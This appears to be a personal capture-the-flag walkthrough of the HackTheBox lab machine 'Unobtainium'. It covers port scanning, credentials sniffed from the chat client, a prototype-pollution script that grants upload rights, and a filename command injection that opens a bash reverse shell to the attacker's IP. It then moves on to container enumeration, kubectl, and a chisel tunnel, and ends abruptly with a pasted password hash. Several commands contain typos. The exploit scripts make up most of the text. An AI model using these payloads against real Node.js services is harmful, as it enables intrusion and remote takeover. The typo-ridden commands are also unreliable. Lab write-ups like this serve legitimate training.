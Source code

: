 # Unobtainium

IP : 10.10.10.235
OS -> Linux

````bash
echo "10.10.10.235 Unobtainium.htb" >> /etc/hosts 
````

Nmap 
nmap -sC -sV -p- unobtainium.htb

|Port|Service|
|---|---|
|22|ssh|
|80|http|
|2379|ssl/etcd-client|
|2380|ssl/etcd-server|
|8443|https|
|10250|https|
|31337|http|

### port 80
Simple html page. 

where we can download their program called unobtainium, let download it and see if we can learn anything from it. 

unpack the files, inside the files you will find opt/unobtainium/unobtainium program which is theirc chat software. 

The "TODO" tap describe furture functions
{"ok":true,"content":"1. Create administrator zone.\n2. Update node JS API Server.\n3. Add Login functionality.\n4. Complete Get Messages feature.\n5. Complete ToDo feature.\n6. Implement Google Cloud Storage function: https://cloud.google.com/storage/docs/json_api/v1\n7. Improve security\n"}

The Post messages allow you to post messages. but to where, lets see if the system make a connection to anything. 
````bash
netstat -antp
#Output 
tcp        1      0 10.10.14.200:46798      10.10.10.235:31337      CLOSE_WAIT  2613/unobtainium -- 
````

And we see that it makes a connection to port 31337 node js service

go to http://unobtainium.htb:31337/ and you will see our text message. 
and it by the user felamos. why are we allready auth?

To get a better idea of what is happend with the packages lets start up wireshark. 
use filter ip.addr == 10.10.10.235 to cut out the noise. 

![[Pasted image 20210506124830.png]]

Look at the HTTP/JSON package 

````json
JavaScript Object Notation: application/json
    Object
        Member Key: auth
            Object
                Member Key: name
                    String value: felamos
                    Key: name
                Member Key: password
                    String value: Winter2021
                    Key: password
            Key: auth
        Member Key: filename
            String value: todo.txt
            Key: filename
````

And we got the cred for felamos the user we posted message as. 
Creds : felamos/Winter2021

It first tried it on ssh service and it did not work, would also be to easy. 

Startup burp so we can catch the request and send it to repeater
And you can now start search for files. 
a common web files is the inde.js let try that, and we got a hit, it in a very ugly format, but it hold nothing of interest. We know it a nodejs service lets see if we get the packages that is installed. 
search for package.json
lodash can be used to give us the options to upload and delete files.
and google-cloudstorage-commds for RCE. 

first start by giving us the ability to upload files. 
install
```bash
apt-get install jq
```

Exploit for giving us the ability to upload files
```bash
#!/bin/bash

RHOST="unobtainium.htb"
RPORT=31337
UA="Mozilla/5.0"
TEXT='{"constructor":{"prototype":{"canDelete":true, "canUpload":true}}}'

cat - <<EOF > message.json
{
    "auth":
    {
        "name":"felamos",
        "password":"Winter2021"
    },
    "message":
    {
        "text":${TEXT}
    }
}
EOF

curl -s \
     -X PUT \
     -A "${UA}" \
     -H "Content-Type: application/json" \
     -d "$(cat message.json | jq -c)" \
     "http://${RHOST}:${RPORT}/" \
| jq .
```

run the script 
```bash
./exploit.sh
```

we now have the ability to write in a file.

let make a reverse shell script 
```bash
#!/bin/bash

RHOST="unobtainium.htb"
RPORT=31337
UA="Mozilla/5.0"
FILE="& echo $(echo 'bash -i >& /dev/tcp/10.10.14.200/8754 0>&1' | base64) | base64 -d | bash"

cat - <<EOF > message.json
{
    "auth":
    {
        "name":"felamos",
        "password":"Winter2021"
    },
    "filename":"${FILE}"
}
EOF

curl -s \
     -A "${UA}" \
     -H "Content-Type: application/json" \
     -d "$(cat message.json | jq -c)" \
     -o /dev/null \
     "http://${RHOST}:${RPORT}/upload"
```

start a listner 

````bash
nc -lvnp 8754
````

and we got the user txt. 
notices we are root but inside a docker container we have to try and escape. 

privileged container check 
````bash
ip link add dummy0 type dummy
````
Nope we have to find another way.

There no kubectl in the container to be found, lets start by uploading on. 
[Install kubectl binary with curl on Linux](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/#install-kubectl-binary-with-curl-on-linux)

create a python server 
````bash
python3 -m http.server 8080
````

Download the fil using wget
````bash
wget http://10.10.14.200:8080/kubeclt -O /tmp/kubeclt
/tmp/kubectl get namespace #get the namespace of the other containers
/tmp/xkubectl get pods -n dev #Check if premissions of pods 
````

The way kubernetes cluster works by having one or more nodes, each of these nodes have one or more pods. Each pods can have one or more container. 
and we learn there are three pods with a container running

We are looking at two `different` environments, the classic production `environment` and the development `environment`. I should be able to repeat the steps i just have to make the `RHOST` and `RPORT` variables and upload them to the container I’m `currently` in above to get another foothold in the `development` environment.

For that we need to `forward` the port to the devnode-deployment container `"172.17.0.4:3000"`

I am using `Chisel` for that, a tcp/upd tunnel written in go.

if you do not have go installed 
````bash
apt install golang-go
````


````bash
git clone https://github.com/jpillora/chisel.get
cd chisel 
go build
````

transfer the new file onto the box

````bash
./chisels client 10.10.14.200:9999 R:3000:172.17.0.4:3000
````

We have now created a connection to box. 


Hash -> $6$.hk3Zm.2qShoCbQK$LM95a1qtDhEtLPGorD8FmMY5pNef7WfodyUUaw9tikXkh8v/.qmhJPIEV40KYehroJybb4C12gLfQu0UsbFe80

[https://0xdedinfosec.github.io/posts/htb-unobtainium/](https://0xdedinfosec.github.io/posts/htb-unobtainium/)